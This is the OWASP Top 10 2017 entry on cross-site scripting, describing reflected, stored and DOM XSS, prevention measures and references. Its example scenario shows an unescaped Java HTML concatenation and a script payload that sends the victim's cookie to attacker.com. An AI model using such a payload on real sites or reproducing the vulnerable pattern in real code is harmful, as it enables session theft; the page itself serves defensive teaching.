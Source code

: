 # A7:2017 Cross-Site Scripting (XSS)

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl : Exploitability 3 | Prevalence 3 : Detectability 3 | Technical 2 : Business |
| Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks. | XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications. Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET. | The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim. |

## Is the Application Vulnerable?

There are three forms of XSS, usually targeting users' browsers:

* **Reflected XSS**: The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.
* **Stored XSS**: The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.
* **DOM XSS**: JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.

## How To Prevent

Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:

* Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.
* Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP  Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data escaping techniques.
* Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the OWASP Cheat Sheet 'DOM based XSS Prevention'.
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).

## Example Attack Scenario

**Scenario #1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
The attacker modifies the ‘CC’ parameter in the browser to:

`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

**Note**: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

## References

### OWASP

* [OWASP Proactive Controls: Encode Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Proactive Controls: Validate Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Application Security Verification Standard: V5](https://owasp.org/www-project-application-security-verification-standard/)
* [OWASP Testing Guide: Testing for Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for Stored XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for DOM XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [OWASP Java Encoder Project](https://owasp.org/www-project-java-encoder/)

### External

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_client-side-template-injection)
